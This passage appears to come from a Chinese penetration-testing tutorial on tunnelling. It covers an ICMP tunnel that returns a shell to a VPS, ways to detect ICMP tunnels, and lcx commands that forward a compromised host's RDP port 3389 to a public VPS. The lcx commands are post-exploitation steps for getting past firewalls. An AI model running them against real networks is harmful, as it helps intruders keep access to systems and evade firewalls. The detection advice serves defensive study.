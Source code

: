 在目标主机上运行以上命令后，即可在VPS中看到192.168.78.128的shell。输入``ipconfig``命令即可看到当前IP为其IP地址。

[![gf8zCT.png](https://z3.ax1x.com/2021/05/18/gf8zCT.png)](https://imgtu.com/i/gf8zCT)

抓包看看：

[![gfGn2D.png](https://z3.ax1x.com/2021/05/18/gfGn2D.png)](https://imgtu.com/i/gfGn2D)

可以看到大量的ICMP数据包。

最后记得把本地ping恢复：

```
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```

##### 2.PingTunnel

......

##### 3.防御ICMP隧道攻击的方法

许多网络管理员会阻止ICMP通信进入站点。但是在出站方向，ICMP通信是被允许的，而且目前大多数的网络和边界设备不会过滤ICMP流量。使用ICMP隧道时会产生大量的ICMP数据包，我们可以通过Wireshark进行ICMP数据包分析，以检测恶意ICMP流量，具体方法如下：

+ 检测同一来源的ICMP数据包的数量。一个正常的ping命令每秒最多发送两个数据包，而使用ICMP隧道的浏览器会在很短时间内产生上千个ICMP数据包。
+ 注意那些payload大于64bit的ICMP数据包。
+ 寻找响应数据包中的payload与请求数据包中的payload不一致的ICMP包。
+ 检查ICMP数据包的协议标签。例如，icmptunnel会在所有的ICMP payload前面添加"TUNL"标记来标识隧道——这就是特征。

### 传输层隧道技术

> 传输层技术包括TCP隧道、UDP隧道和常规端口转发等。在渗透测试中，如果内网防火墙阻止了对指定端口的访问，在获得目标机器的权限后，可用使用IPTABLES打开指定端口。如果内网中存在一系列防御系统，TCP、UDP流量会被大量拦截。

#### lcx端口转发

lcx是一个基于Socket套接字实现的端口转发工具，有Windows和Linux两个版本。Windows版为：lcx.exe。Linux版为：portmap。一个正常的Socket隧道必须具备两端：一端为服务端，监听一个端口，等待客户端的连接；另一端为客户端，通过传入服务端的IP地址和端口，才能主动与服务器连接。

##### 1.内网端口转发

在目标机器上执行如下命令，将目标机器3389端口的所有数据转发到公网VPS的4444端口上。

```
lcx.exe -slave <公网主机IP地址> 4444 127.0.0.1 3389
```

在VPS上执行如下命令，将本机4444端口上监听的所有数据转发到本机的5555端口上。

```
lcx.exe -listen 4444 5555
```

此时，用 mstsc 登录"<公网主机IP地址>:5555"，或者在VPS上用mstsc登录主机127.0.0.1的5555端口，即可访问目标服务器的3389端口。

##### 2.本地端口映射

如果目标服务器由于防火墙的限制，部分端口(如 3389)的数据无法通过防火墙，可用将目标服务器相应端口的数据透传到防火墙允许的其他端口(如 53)。在目标主机上执行如下命令，就可以直接从远程桌面连接目标主机的53端口。
